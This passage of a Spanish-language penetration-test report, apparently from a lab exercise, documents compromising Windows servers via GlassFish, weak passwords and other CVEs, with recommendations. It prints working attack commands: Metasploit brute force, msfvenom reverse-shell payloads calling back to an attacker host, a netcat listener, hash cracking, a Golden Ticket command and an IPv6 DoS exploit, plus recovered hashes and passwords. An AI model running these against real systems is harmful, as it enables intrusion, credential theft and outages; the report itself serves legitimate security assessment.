CVE-2017-1000028 es una vulnerabilidad de Directory Traversal en GlassFish 4.1 que permite a atacantes autenticados acceder a archivos sensibles en el servidor. Ambas vulnerabilidades, en conjunto, exponen la infraestructura a riesgos significativos.

---

### Explotación:

Se emplearon técnicas de reconocimiento, fuerza bruta y ejecución de código remoto para comprometer el servidor.

1. **Reconocimiento:**
Se realizó un escaneo con Nmap para identificar puertos abiertos y servicios activos:

```bash
nmap -sCV -Pn -p 4848,8080,8181 10.0.3.7
```
**Resultado:**
- `4848/tcp` → GlassFish Admin Console (SSL)
- `8080/tcp` → Interfaz web HTTP de GlassFish
- `8181/tcp` → Posible interfaz alternativa segura (SSL)

2. **Fuerza bruta de credenciales:**
Se utilizó Metasploit para intentar el acceso con credenciales débiles:

```bash
use auxiliary/scanner/http/glassfish_login
set RHOSTS 10.0.3.7
set RPORT 4848
set SSL true
set USERNAME admin
set PASS_FILE /home/kali/Desktop/password.txt
set STOP_ON_SUCCESS true
run
```

**Resultado:**


- Se encontraron credenciales válidas: `admin:sploit`

3. **Generación y despliegue de payload:**
Se generó un archivo `.war` malicioso con `msfvenom`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.3.6 LPORT=4242 -f war > shell.war
```
Se cargó manualmente en GlassFish a través del panel de administración:
- **URL:** `https://10.0.3.7:4848`
- **Ruta:** Applications → Deploy → Seleccionar `shell.war`
- **Ejecución:** `http://10.0.3.7:8080/shell/`

4. **Establecimiento de una reverse shell:**
Se configuró un listener en Kali Linux:

```bash
nc -lvnp 4242
```


**Resultado:**
- Se recibió una conexión remota desde el servidor comprometido.

---

### Sistemas afectados:
- **10.0.3.7** → Servidor Windows con GlassFish 4.0 vulnerable.

---

### Mitigación:

- Restringir el acceso al panel de administración a direcciones IP confiables.
- Implementar autenticación fuerte (uso de contraseñas seguras y autenticación multifactor).
- Aplicar actualizaciones y parches de seguridad para mitigar las vulnerabilidades conocidas.
Gravedad: Alta

La vulnerabilidad consiste en el uso de contraseñas débiles y predecibles para cuentas de usuario del sistema, incluyendo cuentas con privilegios administrativos. Mediante el uso de Meterpreter, fue posible obtener los hashes de contraseñas almacenados en el sistema y posteriormente crackearlos utilizando diccionarios, lo que permitió obtener las credenciales en texto plano de varias cuentas, incluyendo la cuenta de servicio SVC_SQLService.

### Explotación

1. Se utilizó el comando hashdump de Meterpreter para extraer los hashes de contraseñas del sistema objetivo:



2. Posteriormente, se utilizó la herramienta john con un diccionario para crackear los hashes obtenidos:

```
john --wordlist=/usr/share/wordlists/rockyou.txt contra.txt --format=NT

```



### Sistemas afectados: 
- 10.0.3.4 win2016
- 10.0.3.7 win2008


### Mitigación:
- Implementar políticas de contraseñas robustas que exijan longitud mínima, complejidad, cambios periódicos y evitar su reutilización.
- Monitorizar intentos de acceso fallidos y actividades sospechosas.

## 7. Recomendaciones Generales de Seguridad

Con base en los hallazgos obtenidos durante la evaluación, se recomienda a la organización implementar las siguientes medidas de seguridad generales, orientadas a reducir la superficie de ataque, prevenir futuras intrusiones y fortalecer su infraestructura TI:

### 7.1 Seguridad de Sistemas y Parches

- Establecer un programa de actualizaciones periódicas para todos los sistemas operativos y aplicaciones.
- Sustituir sistemas obsoletos como Windows Server 2008 R2, que carece de soporte oficial.
- Aplicar parches de seguridad críticos con prioridad inmediata, especialmente en servicios expuestos a Internet.

### 7.2 Gestión de Credenciales

- Implementar políticas de contraseñas robustas que incluyan complejidad, longitud mínima, rotación periódica y evitar la reutilización.
- Deshabilitar cuentas predeterminadas o innecesarias, como "vagrant" o "guest".
- Utilizar autenticación multifactor (MFA) en accesos privilegiados y remotos.

### 7.3 Segmentación y Control de Acceso

- Aplicar segmentación de red para separar servicios críticos, usuarios y entornos de desarrollo o pruebas.
- Restringir los accesos mediante firewalls internos, VPNs y listas blancas de direcciones IP.
- Cerrar todos los puertos y servicios innecesarios, especialmente aquellos que no requieren acceso externo.

### 7.4 Hardening y Monitorización

- Aplicar políticas de hardening para todos los sistemas (deshabilitar servicios innecesarios, eliminar protocolos inseguros como SMBv1 o FTP).
- Establecer soluciones de monitoreo centralizado (SIEM) y sistemas de detección de intrusos (IDS/IPS).
- Auditar y revisar periódicamente los registros del sistema, autenticación y actividad en red.

### 7.5 Concienciación y Formación

- Capacitar al personal técnico y usuarios en buenas prácticas de seguridad, incluyendo detección de ataques de ingeniería social, phishing y gestión segura de contraseñas.
- Establecer un protocolo claro de respuesta ante incidentes, así como realizar simulacros de seguridad.

### 7.6 Pruebas de Seguridad Continuas

- Realizar pruebas de intrusión periódicas (al menos una vez al año o tras cambios significativos en la infraestructura).
- Complementar las evaluaciones con análisis de vulnerabilidades automatizados y revisiones manuales especializadas.

## **8\. Resumen e informe de vulnerabilidades**
A continuación se presenta un resumen consolidado de las vulnerabilidades identificadas durante la auditoría, ordenadas por criticidad, con el objetivo de facilitar la priorización de acciones correctivas.

### **8.1 Clasificación por Nivel de Riesgo**

| Nivel de Riesgo | Nº de Vulnerabilidades  | Porcentaje sobre el total   |
|-----------------|-------------------------|---------------------------- |
| 🟥 Crítico       | 7                      | 53.85%                     |
| 🟧 Alto          | 3                      | 23.08%                     |
| 🟨 Medio         | 3                      | 23.08%                     |
| 🟩 Bajo          | 0                      | 0%                         |

**Total de vulnerabilidades analizadas: 13**

> Más del 50% de las vulnerabilidades son de riesgo **crítico**, lo que representa una situación de alta exposición para la organización.

---

### **8.2 Top Vulnerabilidades Críticas por Impacto**

| CVE / Descripción                          | Tipo de Vulnerabilidad         | Impacto Esperado                          | Nivel de Riesgo |
|-------------------------------------------|---------------------------------|-------------------------------------------|-----------------|
| CVE-2015-8249 – ManageEngine File Upload  | RCE                             | Compromiso total del servidor             | 🟥 Crítico       |
| CVE-2018-1000861 – Jenkins Script Console | RCE                             | Ejecución remota sin autenticación        | 🟥 Crítico       |
| CVE-2017-0143 a 0148 – EternalBlue        | RCE / wormable                  | Ejecución remota masiva por SMBv1         | 🟥 Crítico       |
| CVE-2014-3120 – Elasticsearch             | RCE via scripting               | Ejecución remota sin autenticación        | 🟥 Crítico       |
| CVE-1999-0504 – PsExec (post-auth)        | RCE                             | Privilegios SYSTEM con credenciales       | 🟥 Crítico       |
| Golden Ticket (no CVE)                    | Persistencia / EoP             | Control total y permanente del dominio    | 🟥 Crítico       |
| GlassFish (CVE-2012-0550 / 2017-1000028)  | RCE / LFI                       | Despliegue de backdoors sin autenticación | 🟥 Crítico       |

## **9\. Resultados técnicos**
A continuación se presenta una tabla resumen con los detalles técnicos clave de cada vulnerabilidad explotada, con su respectiva IP, servicio afectado y resultado de explotación:

| # | IP / Sistema              | Servicio / Aplicación         | CVE / Técnica                        | Resultado de la Explotación                     |
|---|---------------------------|--------------------------------|--------------------------------------|--------------------------------------------------|
| 1 | 10.0.3.7 – Win2008        | ManageEngine Desktop Central  | CVE-2015-8249                        | Shell inicial + Escalada a SYSTEM (Juicy Potato) |
| 2 | 10.0.3.7 – Win2008        | FTP + SSH                      | Fuerza bruta con Hydra               | Acceso con credenciales válidas (Administrator)  |
| 3 | 10.0.3.7 – Win2008        | Active Directory (AD)         | Golden Ticket                        | Acceso persistente a dominio completo           |
| 4 | 10.0.3.7 – Win2008        | GlassFish                      | CVE-2012-0550 / CVE-2017-1000028     | RCE vía WAR + Shell reversa                      |
| 5 | 10.0.3.7 – Win2008        | Jenkins                        | CVE-2018-1000861                     | Shell vía consola + Escalada (MS16-075)          |
| 6 | 10.0.3.7 – Win2008        | WordPress 4.6.1                | CVE-2016-7168 / CVE-2016-7169        | Enumeración de usuarios + LFI                   |
| 7 | 10.0.3.7 – Win2008        | Elasticsearch                  | CVE-2014-3120                        | Shell remota (Meterpreter)                       |
| 8 | 10.0.3.7 – Win2008        | SMB / PsExec                   | CVE-1999-0504                        | SYSTEM via SMB con credenciales                  |
| 9 | 10.0.3.7 – Win2008        | SMBv1                          | CVE-2017-0143 a 0148                 | Shell remota (EternalBlue)                       |
|10 | 10.0.3.7 – Win2008        | RDP                            | CVE-2012-0002                        | Denegación de servicio                           |
|11 | 10.0.3.7 – Win2008        | IIS 7.5                        | CVE-2015-1635                        | Denegación de servicio                           |
|12 | 10.0.3.7 – Win2008        | IPv6                           | CVE-2021-24086                       | BSOD remoto por fragmentación IPv6               |
|13 | 10.0.3.7 / 10.0.3.4       | Local accounts                 | Hashdump + Crackeo                  | vagrant:pr0t0c0l, svc_sqlservice:xxxxxxx         |

## 11. Conclusión

Los resultados del proyecto muestran un compromiso total de la infraestructura a través de múltiples vectores de ataque. Algunos de estos ataques no requerían autenticación previa y tuvieron un impacto directo en el dominio de la organización, afectando la integridad, confidencialidad y disponibilidad tanto del servicio como de los datos. Esto pone de relieve la necesidad urgente de mejorar la seguridad.

Para abordar estos problemas, se recomienda sustituir el servidor Windows Server 2008, que ya no recibe actualizaciones de seguridad, y actualizar el sistema operativo del servidor Windows Server 2016 para aplicar los parches necesarios. Además, es crucial mejorar las políticas de contraseñas y evitar la reutilización de credenciales entre servicios. Estas acciones son esenciales para fortalecer la postura de seguridad de la organización y reducir significativamente el riesgo de futuros compromisos en la infraestructura.


## **12. Anexos**
---
### **12.1 Evidencias de Explotación**

#### **ManageEngine Desktop Central - CVE-2015-8249**

- 
  
- 
---

#### **Jenkins - CVE-2018-1000861**

- 
  
  - 
    
  - 
    
  - 
    
  
- 

---

#### **Hydra - Fuerza Bruta FTP/SSH**

- 
  
- 
  
- 
  
- 
  
- 

---

#### **Golden Ticket**

- 
  
- 
  
- 
  
- 

---

#### **GlassFish - CVE-2012-0550 / CVE-2017-1000028**

- 
  
- 

---

#### **ElasticSearch - CVE-2014-3120**

- 
  
- 
  
- 

---

#### **PsExec - CVE-1999-0504**

- 
  
- 

---

#### **EternalBlue - CVE-2017-0143 a 0148**

- 
  
- 
  
- 

---

#### **MS12-020 (DoS por RDP)**

- 
  
- 
  
- 

---

#### **MS15-034 (DoS por HTTP/IIS)**

- 
  
- 
  
- 

---

#### **IPv6 - CVE-2021-24086**

- 
  
- 

---

#### **Hashdump y Crackeo de Contraseñas**

- 
  
- 

---

### **10.2 Hashes y Contraseñas Recuperadas**

```plaintext
Administrator:500:31d6cfe0d16ae931b73c59d7e0c089c0:...:::
vagrant:1000:8846f7eaee8fb117ad06bdd830b7586c:...::: → pr0t0c0l
svc_sqlservice:1100:b6a8a2df726de7f6f14b4f7d5c88b351:...::: → S3rvice_123
```

### **10.3 Scripts y Payloads Utilizados**

#### Payloads con msfvenom
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.3.6 LPORT=4444 -f exe -o shell.exe

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.3.6 LPORT=4242 -f war > shell.war
```

#### **Golden Ticket**
```bash
golden_ticket_create -d DescuidadaCorp.local -k <HASH> -s <SID> -u Administrador -t golden.kirbi
```

#### **Exploit IPv6**
git clone https://github.com/0vercl0k/CVE-2021-24086.git
```bash
sudo python3 cve-2021-24086.py --iface=eth0
```
